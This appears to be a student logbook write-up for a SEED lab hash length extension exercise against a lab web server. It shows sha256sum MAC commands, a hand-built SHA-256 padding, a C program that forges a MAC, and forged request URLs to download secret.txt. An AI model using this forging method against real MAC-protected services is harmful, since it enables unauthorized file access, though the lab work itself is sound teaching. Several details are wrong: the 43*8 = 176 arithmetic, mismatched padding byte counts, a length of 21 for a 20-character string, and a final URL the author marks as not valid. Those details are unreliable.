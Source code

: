 ## Hash Length Extension

#### Task 1: Send Request to List Files

First we picked a uid number from the ```key.txt```file: **1001:123456**.

We built the message: 
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
```

To calculate the MAC, we ran the command:
```
$ echo -n "123456:myname=MariaVieira&uid=1001&lstcmd=1" | sha256sum
```
The result was **1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e  -**.

Then, we built the request and sent it using the browser: 
```
http://www.seedlab-hashlen.com/?myname=MariaVieira&uid=1001&lstcmd=1mac=1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e
```
This didn´t work, so we tried to use 10.9.0.80 in the url:
```
http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1&mac=1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e&subid1=20241206-1030-1288-97a0-15adcfd528ba
```
This time, it worked, showing the files successfully:


![Image 1](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1_LOGBOOK10_2.png)


Then, we did the download request:
- We had to calculate the MAC again with 
```echo -n "123456:myname=MariaVieira&uid=1001&lstcmd=1&download=secret.txt" | sha256sum```
- Sent the updated url: 
```
http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1&download=secret.txt&mac=289e9016b7caf160b0b116505c9452ac870b83598d95df94c221c47393d264d5
```

The request was successful, showing the files in LabHome and the content of ```secret.txt```!

![Image 2](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1_LOGBOOK10_3.png)

#### Task 2: Create Padding

We already have the message from Task1:
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
```
The length of the message is 43
bytes, so the padding is 64 - 43 = 21 bytes, including 8 bytes of the length field. 

The length of the message in
term of bits is 43 * 8 = 176 = 0x158. 

SHA256 will be performed in the following padded message:
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
\x80
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x01\x58
```
Because of the 21 bytes of padding, we added ```\x00```21 times before the length field.

Converting to URL enconding, we obtained:
```
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58
```


#### Task 3

We changed the file according to our attack:
```
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[])
{
  int i;
  unsigned char buffer[SHA256_DIGEST_LENGTH];
  SHA256_CTX c;
  
  SHA256_Init(&c);
  
  for(i=0; i<64; i++)
    SHA256_Update(&c, "*", 1);
    
  // MAC of the original message M (padded)
  c.h[0] = htole32(0x1b7ae954);
  c.h[1] = htole32(0xe7654d0d);
  c.h[2] = htole32(0xf10f49c0);
  c.h[3] = htole32(0x01b146bc);
  c.h[4] = htole32(0xc0034135);
  c.h[5] = htole32(0x5349f58f);
  c.h[6] = htole32(0xd7ce0b0e);
  c.h[7] = htole32(0x79e1d06e);
  
  // Append additional message
  SHA256_Update(&c, "&download=secret.txt", 21);
  SHA256_Final(buffer, &c);
  
  for(i = 0; i < 32; i++) {
    printf("%02x", buffer[i]);
  }
  printf("\n");
  return 0;
}
```

Then we ran the code, obtaining the new MAC for the extended request:

![Image 3](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task3_LOGBOOK10.png)

Finally, we could build the url to the attack:

- Request from task1
- PADDING from task2: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58
- MAC from task33: 26c7c61d5a8a35bc29f57436176471b79620ec0912225b56d23b4e8925357594



NAO TA VALIDO 

http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58&download=secret.txt&mac=26c7c61d5a8a35bc29f57436176471b79620ec0912225b56d23b4e8925357594



